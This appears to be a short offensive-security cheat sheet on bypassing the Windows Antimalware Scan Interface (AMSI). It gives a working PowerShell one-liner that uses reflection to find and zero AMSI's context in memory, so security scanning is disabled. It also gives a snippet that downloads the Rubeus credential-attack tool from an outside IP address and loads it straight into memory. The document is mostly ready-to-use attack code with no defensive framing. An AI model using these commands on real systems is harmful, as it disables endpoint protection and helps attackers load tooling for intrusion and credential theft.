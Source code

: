 # Windows Antimalware Scan Interface ( AMSI ) Bypass


## reflexion

[source: Gustav Shen](https://gustavshen.medium.com/bypass-amsi-on-windows-11-75d231b2cac6)

1. Get the assembly that Ref is defined in, then get a list of all types defined in that assembly
2. In the list, locate AmsiUtils based on the property characteristics of AmsiUtils, such as IsPublic=False, IsSerial=False, and the Name contains the “iUtils” substring, etc.
3. Locate amsiContext in a similar manner
4. Get the address of the amsiContext parameter and patch the first DWORD in the structure to 0

```Powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like “*iUtils”) {$c=$b}};$d=$c.GetFields(‘NonPublic,Static’);Foreach($e in $d) {if ($e.Name -like “*Context”) {$f=$e}};$g=$f.GetValue($null);$ptr = [System.IntPtr]::Add([System.IntPtr]$g, 0x8);$buf = New-Object byte[](8);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
```

## load c# tool

```Powershell
$data=(new-object System.Net.WebClient).DownloadData(‘http://192.168.0.45:443/rubeus.exe’)
$assembly=[System.Reflection.Assembly]::Load($data)
```
